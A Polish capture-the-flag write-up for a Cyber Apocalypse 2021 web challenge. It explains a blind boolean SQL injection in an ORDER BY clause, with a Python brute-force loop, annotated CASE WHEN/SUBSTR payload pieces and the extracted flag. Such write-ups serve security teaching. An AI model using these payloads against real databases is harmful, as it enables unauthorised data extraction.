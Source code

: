 ```yaml
---
Źródło: https://nosecurity.blog/cyberApocalypse2021
---
```


# Wygląd platformy

![platforma](./platform.png)

# Fragment exploita

```python
finished = False
# atak siłowy zaczynamy od 1 znaku 
# SQL jako pierwszy indeks bierze 1
character_position = 1
# Starting with a blank string and then appending characters to it as we bruteforce
flag = ''

while not finished:
    for character in bruteforce_alphabet:

        sql_payload = '(CASE WHEN (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' THEN id ELSE count END);--'
        
        request = send_order_query(sql_payload)
		
        # jak znajdziemy znak to szukaj kolejnego
        if blind_boolean(request):
            flag += character
            character_position += 1
            print('Hit: ' + flag)
            break
		
        # jak dojdziemy do końca alfabetu to znaczy, że przeszliśmy wszystko
        if character == bruteforce_alphabet[-1]:
            finished = True
```

# 1. 
```sql
SUBSTR(' + sql_field + ',1,' + str(character_position) + ')
```
> wybierz tyle znaków z pola sql_field na ile wskazuje character_position

# 2.
```sql
(SELECT 
    SUBSTR(' + sql_field + ',1,' + str(character_position) + ') 
FROM ' + sql_table + sql_where + ')
```
> weź znaki z **1.** i przekaż do zapytania z **3.**

# 3.
```sql
(CASE WHEN 
    (SELECT SUBSTR(' + sql_field + ',1,' + str(character_position) + ') FROM ' + sql_table + sql_where + ')=\'' + flag + character + '\' 
THEN id ELSE count END);--
```
> jeśli sprawdzany przez nas znak pasuje do tego w bazie to wybierz według **id**
> w przeciwnym przypadku wybierz według **count**

## Przypadek id

```sql
(CASE WHEN (1=1) THEN id ELSE count END)
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

## Przypadek count

```sql
(CASE WHEN (1=2) THEN id ELSE count END)
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

# Wynik
```
...
Hit: CHTB{order_me_this_juicy_
Hit: CHTB{order_me_this_juicy_i
Hit: CHTB{order_me_this_juicy_in
Hit: CHTB{order_me_this_juicy_inf
Hit: CHTB{order_me_this_juicy_info
Hit: CHTB{order_me_this_juicy_info}
```